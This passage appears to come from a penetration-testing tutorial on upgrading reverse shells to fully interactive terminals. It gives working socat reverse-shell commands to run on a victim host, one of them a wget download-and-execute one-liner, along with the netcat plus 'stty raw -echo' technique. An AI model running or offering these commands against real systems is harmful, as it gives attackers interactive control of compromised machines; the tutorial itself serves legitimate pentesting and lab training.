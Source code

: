 **On Victim (launch)**:
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

oneliner download and execute
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
On Kali, you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. Pretty sweet.

#  Method 2: from netcat with magic

I watched Phineas Fisher use this technique in his hacking video, and it feels like magic. Basically it is possible to use a dumb netcat shell to upgrade to a full TTY by setting some `stty` options within your Kali terminal.

First, follow the same technique as in Method 1 and use Python to spawn a PTY. Once bash is running in the PTY, background the shell with `Ctrl-Z`

[![Background shell](https://blog.ropnop.com/images/2017/07/background_netcat.png)](https://blog.ropnop.com/images/2017/07/background_netcat.png)

While the shell is in the background, now examine the current terminal and STTY info so we can force the connected shell to match it:
[![Term and STTY info](https://blog.ropnop.com/images/2017/07/term_stty_info.png)](https://blog.ropnop.com/images/2017/07/term_stty_info.png)

The information needed is the TERM type (_“xterm-256color”_) and the size of the current TTY (_“rows 38; columns 116”_)

With the shell still backgrounded, now set the current STTY to type raw and tell it to echo the input characters with the following command:

|   |   |
|---|---|
|```<br>1<br>```|```bash<br>stty raw -echo<br>```|

With a raw stty, input/output will look weird and you won’t see the next commands, but as you type they are being processed.

Next foreground the shell with `fg`. It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal with `reset`.

[![Foreground and reset](https://blog.ropnop.com/images/2017/07/fg_reset.png)](https://blog.ropnop.com/images/2017/07/fg_reset.png)

_Note: I did not type the `nc` command again (as it might look above). I actually entered `fg`, but it was not echoed. The `nc` command is the job that is now in the foreground. The `reset` command was then entered into the netcat shell_
